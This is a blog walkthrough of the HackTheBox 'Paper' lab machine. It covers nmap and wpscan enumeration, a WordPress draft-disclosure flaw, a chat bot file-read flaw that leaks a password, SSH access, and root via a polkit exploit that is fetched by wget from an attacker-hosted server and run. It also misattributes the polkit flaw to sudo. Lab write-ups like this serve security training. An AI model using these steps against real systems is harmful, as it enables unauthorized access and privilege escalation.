# Hackthebox - Paper


Hackthebox easy machine paper walkthrough & tutorial.

<!--more-->

## Enumeration

Starting out with the nmap scan
```bash
nmap -A -vv -p 22,80 -oN nmap.txt 10.10.11.143
```

We have ports 22 and 80 open.
```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcZzzauRoUMdyj6UcbrSejflBMRBeAdjYb2Fkpkn55uduA3qShJ5SP33uotPwllc3wESbYzlB9bGJVjeGA2l+G99r24cqvAsqBl0bLStal3RiXtjI/ws1E3bHW1+U35bzlInU7AVC9HUW6IbAq+VNlbXLrzBCbIO+l3281i3Q4Y2pzpHm5OlM2mZQ8EGMrWxD4dPFFK0D4jCAKUMMcoro3Z/U7Wpdy+xmDfui3iu9UqAxlu4XcdYJr7Iijfkl62jTNFiltbym1AxcIpgyS2QX1xjFlXId7UrJOJo3c7a0F+B3XaBK5iQjpUfPmh7RLlt6CZklzBZ8wsmHakWpysfXN
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE/Xwcq0Gc4YEeRtN3QLduvk/5lezmamLm9PNgrhWDyNfPwAXpHiu7H9urKOhtw9SghxtMM2vMIQAUh/RFYgrxg=
|   256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKdmmhk1vKOrAmcXMPh0XRA5zbzUHt1JBbbWwQpI4pEX
80/tcp open  http    syn-ack Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
```

Visiting port 80, we have a default test page.



Looking at the response headers, we have a header X-Backend-Server with an interesting value.


Let's add this domain to our /etc/hosts file.

Visiting office.paper we have a new webpage.



A bit of information gathering revealed that the website is running Wordpress CMS.



So we can use wpscan to enumerate further and scan for known vulnerabilities.

```bash
wpscan --url http://office.paper --api-token 'YOUR-API-TOKEN-HERE'
```

## Foothold

From the above scan we have identified a that the running version of Wordpress is vulnerable to CVE-2019-17671



Looking at the exploit we have to add *?static=1* parameter.



Looking at other posts we can assume we may have access to some kind of secret content.



Visiting the following url: *http://office.paper/?static=1* we can see some secret content.



And Boom! we have a new subdomain. Let's add this to our /etc/hosts file as well.

Visiting the leaked url: *http://chat.office.paper/register/8qozr226AhkCHZdyY* we have a chat application.



After registering and logging in the chat application we have a #general channel. Reading through the messages I found out that we can run some interesting bot commands like the directory listing and reading files if we direct message to RecyclopsBot.



Testing out this functionality, I found a LFI vulnerability in the bot. Using the following command we can list files from parent directories as well.



Checking different files I found a password in the ../../dwight/hubot/.env file.



We already know there is a user named dwight on the system so let's try this password with user *dwight* using ssh.

```bash
ssh dwight@office.paper
```



**And we're in!**

### user.txt



## Privilege Escalation

I checked the sudo version using sudo --version command and the machine is running sudo version 1.8.29



This version of sudo is vulnerable to **CVE-2021-3560** polkit vulnerability.

We can look for exploits on google and escalate our privileges.

I found [this](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py) exploit working fine.

Start a python http server on attacker machine and fetch the file using wget on the target machine.

On Attacker Machine,
```bash
python3 -m http.server 80 
```

On Target Machine, 
```bash
wget http://10.10.14.46/CVE-2021-3560.py
```

Now simply run the file using python3 and we are root.

```bash
python3 CVE-2021-3560.py
```

### root.txt



**Thanks for reading!**

